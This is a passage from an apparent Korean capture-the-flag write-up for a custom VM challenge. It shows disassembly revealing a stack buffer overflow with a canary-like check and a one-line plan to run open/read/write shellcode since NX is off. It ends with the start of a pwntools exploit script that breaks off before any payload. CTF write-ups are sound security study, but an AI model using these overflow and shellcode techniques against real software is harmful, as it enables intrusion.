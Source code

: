 함수 프롤로그를 보면 stack size는 0x3c이므로 버퍼 오버플로우가 발생한다.

```
    0x000d : 2f 40 3c 00 00  | sub      sp, 0x3c
    0x0012 : 10 5b           | mov      r5, bp
    0x0014 : 2e 50 03 00 00  | sub      r5, 0x3
    0x0019 : 12 60 45 04 46  | mov      r6, 0x12345
    0x001e : 08 65           | store    r6, r5
    0x0020 : 12 00 4d 00 01  | mov      r0, 0xcd
```

단, 카나리와 비슷하게 `bp-3`에 `0x12345`라는 값이 있어야 한다.
```
    0x0050 : 5e 60 45 04 46  | cmp      r6, 0x12345
    0x0055 : 73 50 2b 7f 7f  | jne      pc, -0x55     # exit
```

## 4. Exploit 전략

Exploit을 하기 위한 전략.

1. 본 문제에는 NX가 없으므로 간단히 open, read, write하는 shellcode를 올리고 실행한다.


## 5. Result

exploit을 수행한 결과 아래와 같이 shell을 획득할 수 있다.

![exploit success](/assets/img/posts/HS2024-1/7amebox-tiny_adventure/exploit_success.png)

### Full exploit code

```python
from tools.utils import *

from pwn import *


context.log_level = 'INFO'
context.arch = 'x86_64'

HOST, PORT = '127.0.0.1 8102'.split(' ')

if __name__ == '__main__':
    p = remote(HOST, PORT)

    payload = b''
    # open('flag')
    '''
```